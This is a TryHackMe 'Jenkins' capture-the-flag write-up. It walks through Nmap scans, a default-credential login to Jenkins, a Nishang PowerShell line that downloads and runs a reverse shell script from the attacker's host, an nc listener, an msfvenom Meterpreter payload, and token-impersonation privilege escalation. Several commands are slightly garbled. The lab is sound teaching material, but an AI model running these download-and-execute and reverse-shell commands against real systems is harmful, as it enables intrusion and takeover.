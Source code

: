 # 🧠 **Jenkins - TryHackMe Write-up**

## 🛠️ **Info**
- **IP Address:** 10.10.169.235
- **Difficulty:** Easy, Windows
- **Date:** April 2025
- **Goal:** Capture `user.txt` and `root.txt` 🏁

---

## 🔍 **Enumeration**

### Starting with an Nmap scan:

We begin by scanning open ports:

```bash
sudo nmap -p- --min-rate 10000 -T4 --open 10.10.169.235 -Pn

```
# Initial Scan Results

We ran a quick Nmap scan and discovered three open ports:

- **Port 80**: HTTP (IIS)
- **Port 3389**: RDP (Remote Desktop Protocol)
- **Port 8080**: HTTP (Jetty Server)

Now, let's do a more detailed scan:

```bash
nmap 10.10.169.235 -sV -sC -A -vv -oA agr_scan -T4 -p80,8080,3389 -Pn
```

The scan revealed:

- **Port 80**: IIS 7.5
- **Port 3389**: RDP with SSL certificate (alfred)
- **Port 8080**: Jetty 9.4.z-SNAPSHOT (Jenkins login page)

The fun begins on **Port 8080**, which hosts the Jenkins login page. Trying the default credentials (`admin:admin`) got us logged into the admin account. 🎉

## Initial Foothold

Since we’re dealing with a Jenkins CMS, we check the version:

- **Jenkins Version**: 2.190.1

There are no public exploits available for this version, so I used ChatGPT to generate a Groovy payload which gave us simple shell which helped us to switch shells for further exploitation.

## Exploit: Using the Script Console in Jenkins

We know there’s an IIS server running, so we’ll use a PowerShell payload to execute a reverse shell. We'll use the script from Nishang:

Invoke-PowerShellTcp.ps1 **You can get this payload from GitHub**

powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port


This command allows us to download and execute the payload. Set up a listener on your attacking machine:

```bash
nc -lvnp 4444
```
Upload the payload using a Python server and execute it. 🎯

If this doesn't work, don’t panic! ChatGPT saved the day by suggesting a Groovy payload for the Jenkins console, which worked like a charm.

## Privilege Escalation

Now that we have user access, let's enumerate for possible Privilege Escalation (PrivEsc) opportunities. We use the following command:

```bash
whoami /priv
```
This reveals that **SeImpersonatePrivilege** is enabled, giving us a perfect opportunity for Privilege Escalation.

# Exploiting the Machine

We’re going to exploit the machine by creating a reverse Meterpreter shell and setting up a listener in Metasploit. Here's the process step-by-step:

## Step 1: Generate the Payload
Use `msfvenom` to create a reverse Meterpreter payload:


```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```

**Explanation:**
- `LHOST` is your local IP.
- `LPORT` is the port you’ll listen on.
- `shell-name.exe` is the name of the payload.

## Step 2: Set Up the Listener
Start Metasploit and set up a listener to catch the reverse shell:

```bash
msfconsole use exploit/multihandler use payload windows/meterpreter
```
Set the appropriate options for `LHOST` and `LPORT` as per your setup.

## Step 3: Serve the Payload
Use a Python HTTP server to send the payload to the target machine:


```bash
python -m SimpleHTTPServer 8080
```
Download the payload onto the target machine and execute it. The listener you set up should now catch the reverse shell.

## Step 4: Launch the Payload
On the target machine, run the following to execute the payload: `rshell.exe`


The Meterpreter shell should now be connecting.

## Step 5: Escalate Privileges with Token Impersonation
Now that we have a shell, we need to elevate our privileges.

Run the following to list available tokens:`token_list -g`


Identify the `BUILTIN\Administrator` token and impersonate it. This will allow us to become `NT\Authority`.

## Step 6: Migrate to a New Process
To solidify our root privileges, migrate to a process running with the primary token. In this case, we’ll migrate to `spoolsvc.exe`: `migrate <PID>`


Now, you should have full privileges.

## Step 7: Read the Root Flag
At this point, you're Administrator (or root). To read the root flag, navigate to the flag's location and open it. `cat root.txt`


## Conclusion
That’s it! You've successfully exploited the machine by using token impersonation and migration to escalate privileges and capture the flag.

**Happy Hacking!**










